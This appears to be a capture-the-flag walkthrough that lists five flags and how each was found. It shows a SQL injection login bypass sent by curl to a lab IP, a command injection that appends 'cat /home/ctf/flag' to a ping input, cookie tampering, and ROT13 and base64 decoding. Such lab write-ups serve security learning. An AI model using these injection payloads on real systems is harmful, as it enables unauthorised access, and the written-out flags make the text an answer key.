 # CTF Walkthrough

This document explains the steps and methods used to capture each flag in the CTF challenge.

## FLAG1: SQL Injection (Login Form)\
**SSS{yummy_and_nutritious}**\
To capture **FLAG1**, I used an **SQL Injection** on the login form. Here’s how I did it:

- **Username**: `admin'--`
- **Password**: `'`
  
I sent the following request using `curl`:

curl -X POST -d "username=admin'--&password=''" http://141.85.224.116:8083/login.php

This allowed me to bypass the login form and retrieve the flag.

## FLAG2: Command Injection (Ping Command)\
**SSS{hey_man_stop_pinging_around}**\
For **FLAG2**, I exploited a **command injection** vulnerability on the server. I used the following input:

141.85.224.116 -c 1; cat /home/ctf/flag
- The -c 1 flag made the ping command send just one packet.
- The ; operator allowed me to escape the ping command and execute arbitrary commands, in this case, reading the flag from the file /home/ctf/flag.

## FLAG3: Cookie Modification (Burp Suite)\
**SSS{hansel_gretel}**\
- Intercepted the GET request in Burp Suite
- I set the FLAG cookie to applepie 
- Sent the request and got the flag from the response header 

## FLAG4: Caesar Cipher Decryption\
**SSS{every_file_has_feelings}**\
For FLAG4, I discovered the flag in the source code of the site. The following parts were found:
- First Part: FFF{rirel_
- Second Part: svyr_
- Third Part: unf_
- Fourth Part: srryvatf}
Upon noticing that FFF should be SSS (a Caesar cipher shift of 13), I decrypted the flag by shifting each letter back by 13 positions using an online tool.
- Decryption Tool: https://cryptii.com/pipes/caesar-cipher

## FLAG5: Base64 Decoding\
# SSS{cage_travolta}\
For FLAG5, I inspected the source files of the site and found a Base64 encoded string within a comment. I decoded it with the following command:
**echo "U1NTe2NhZ2VfdHJhdm9sdGF9Cg==" | base64 --decode**
This gave me the final flag.
